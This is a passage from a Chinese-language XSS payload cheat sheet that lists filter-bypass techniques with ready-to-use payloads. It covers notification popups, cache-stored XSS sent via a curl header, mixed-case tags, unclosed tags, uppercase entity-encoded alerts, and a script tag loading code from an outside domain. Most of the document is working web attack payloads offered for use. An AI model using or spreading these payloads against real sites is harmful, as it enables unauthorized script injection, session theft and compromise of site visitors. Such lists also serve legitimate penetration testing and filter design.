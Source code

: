 ```javascript
Notification.requestPermission(x=>{new(Notification)(1)})
new(Notification)(1)
```



## HTTP header XSS -  缓存

**用于通过使用`MISS-MISS-HIT`缓存方案（如果存在）将XSS攻击存储在应用程序中。将`<XSS>`替换为你的攻击payload，并将`TARGET`替换为一个虚拟字符串，以避免实际缓存的页面版本。重复发送相同的请求3次  **

```javascript
$ curl -H "Vulnerable_Header: <XSS>" TARGET/?dummy_string
```



## 混合大小写

**用于绕过大小写敏感的过滤器。**

```javascript
<Svg OnLoad=alert(1)>
<Script>alert(1)</Script>
```



## 未闭合的标签

**未闭合的标签是一种用于`HTML注入`的技术 ，通过避免使用完整的`<`和 `>`符号来绕过某些过滤器。这种技术依赖于在源代码中，输入payload后存在一个原生的`>`符号  **

```javascript
<svg onload=alert(1)//
<svg onload="alert(1)"
```



## 大写XSS

**当应用程序将输入转换为大写时使用。在URL中将`&`替换为`%26`，将`#`替换为`%23` **

```javascript
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>
```



## 脚本标签的额外内容

**当过滤器检测`<script>`或 `<script src=...`及其变体，但未检查其他非必需属性时使用 **

```javascript
<script/x>alert(1)</script>
```

